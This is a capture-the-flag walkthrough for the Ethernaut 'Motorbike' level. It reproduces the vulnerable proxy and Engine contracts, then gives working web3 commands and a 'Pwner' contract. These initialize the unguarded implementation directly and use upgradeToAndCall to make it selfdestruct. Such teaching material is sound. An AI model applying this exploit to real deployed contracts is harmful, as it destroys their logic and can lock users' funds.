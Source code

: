 # [25. Motorbike](https://ethernaut.openzeppelin.com/level/0x58Ab506795EC0D3bFAE4448122afa4cDE51cfdd2)

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/Initializable.sol";

contract Motorbike {
  // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
  bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
  
  struct AddressSlot {
    address value;
  }
  
  // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
  constructor(address _logic) public {
    require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
    _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
    (bool success,) = _logic.delegatecall(
      abi.encodeWithSignature("initialize()")
    );
    require(success, "Call failed");
  }

  // Delegates the current call to `implementation`.
  function _delegate(address implementation) internal virtual {
    // solhint-disable-next-line no-inline-assembly
    assembly {
      calldatacopy(0, 0, calldatasize())
      let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
      returndatacopy(0, 0, returndatasize())
      switch result
      case 0 { revert(0, returndatasize()) }
      default { return(0, returndatasize()) }
    }
  }

  // Fallback function that delegates calls to the address returned by `_implementation()`. 
  // Will run if no other function in the contract matches the call data
  fallback () external payable virtual {
    _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
  }

  // Returns an `AddressSlot` with member `value` located at `slot`.
  function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
    assembly {
      r_slot := slot
    }
  }
}

contract Engine is Initializable {
  // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
  bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

  address public upgrader;
  uint256 public horsePower;

  struct AddressSlot {
    address value;
  }

  function initialize() external initializer {
    horsePower = 1000;
    upgrader = msg.sender;
  }

  // Upgrade the implementation of the proxy to `newImplementation`
  // subsequently execute the function call
  function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
    _authorizeUpgrade();
    _upgradeToAndCall(newImplementation, data);
  }

  // Restrict to upgrader role
  function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
  }

  // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
  function _upgradeToAndCall(
    address newImplementation,
    bytes memory data
  ) internal {
    // Initial upgrade and setup call
    _setImplementation(newImplementation);
    if (data.length > 0) {
      (bool success,) = newImplementation.delegatecall(data);
      require(success, "Call failed");
    }
  }
  
  // Stores a new address in the EIP1967 implementation slot.
  function _setImplementation(address newImplementation) private {
    require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
    
    AddressSlot storage r;
    assembly {
      r_slot := _IMPLEMENTATION_SLOT
    }
    r.value = newImplementation;
  }
}
```

We have another proxy-based puzzle here. This time, we see that [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967) is used, which means it is safe against storage collisions. More specifically, EIP-1967 defines a standard storage slot that the proxy uses. As per this standard, the logic contract is stored at `bytes32(uint256(keccak256('eip1967.proxy.implementation')) - 1)`, which is what we see in the code too.

When we examine the Motorbike contract, we realize that it is just a proxy with its logic being the Engine contract. Engine contract is [Initializable](https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable#initializers). There is a question mark here though: the `initializer` is called from the proxy, so the affected storage is that of the Motorbike, not the Engine! Consequently, Motorbike should have the results of initialization in it's storage, while Engine should not.

The `Initializable` contract has 2 storage variables, both 1-byte booleans. The Engine contract has two variables, a 20-byte address and a 32-byte unsigned integer. As per the EVM optimization, 2 booleans and 1 address will all occupy the same slot. So we should see an address and two boolean values side by side at the 0th position.

```js
// Proxy storage
await web3.eth.getStorageAt(contract.address, 0)
// '0x0000000000000000000058ab506795ec0d3bfae4448122afa4cde51cfdd20001'

// Engine address
const _IMPLEMENTATION_SLOT = '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc'
const engineAddress = await web3.eth.getStorageAt(
  contract.address,
  web3.utils.hexToNumberString(_IMPLEMENTATION_SLOT)
)

await web3.eth.getStorageAt(engineAddress, 0)
// '0x0000000000000000000000000000000000000000000000000000000000000000'
```

Indeed, the initializer has mistakenly wrote to the proxy storage! The Engine contract has no idea that it is initialized, so we can call the initialize function there.

```js
await web3.eth.sendTransaction({
  from: player,
  to: engine,
  data: '0x8129fc1c' // initialize()
})
```

If we check the storage of Engine again, we will see that it is updated. We are now the `upgrader` and we can call the `updateToAndCall` function with a new contract of our own, and give `data` to make it `selfdestruct`.

We can write a small contract such as:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Pwner {
  function pwn() public {
    selfdestruct(address(0));
  }
}
```

The objective is to make this the Engine of the Motorbike, so we will make the call to the proxy. Since our function signature will have no match there, it will be delegated to the Engine and there the new implementation will be our `Pwner` contract. Afterwards, `pwn()` will be called and the new implementation will `selfdestruct`.

```js
const _function = {
  "inputs": [
    { 
      "name": "newImplementation",
      "type": "address"
    },
    { 
      "name": "data",
      "type": "bytes"
    }
  ],
  "name": "upgradeToAndCall", 
  "type": "function"
};
const _parameters = [
  '0xad3359eAbEec598f7eBEDdb14BC056ca57fa32B1', // Pwner
  '0xdd365b8b', // pwn()
];
const _calldata = web3.eth.abi.encodeFunctionCall(_function, _parameters);
await web3.eth.sendTransaction({
  from: player, 
  to: engineAddress, // not Motorbike!
  data: _calldata
})
```

We are sending this transaction to Engine instead of Motorbike, because the Engine itself is like a proxy too. Notice in the `_upgradeToAndCall` internal function it makes a `delegatecall` to the `newImplementation`.

What `selfdestruct` within the `newImplementation` achieves here is that it actually destroys the calling Engine, not the Pwner contract! This is again because a `delegatecall` is used. If we check the Engine contract address with block explorer, we will see that it did indeed `selfdestruct`.

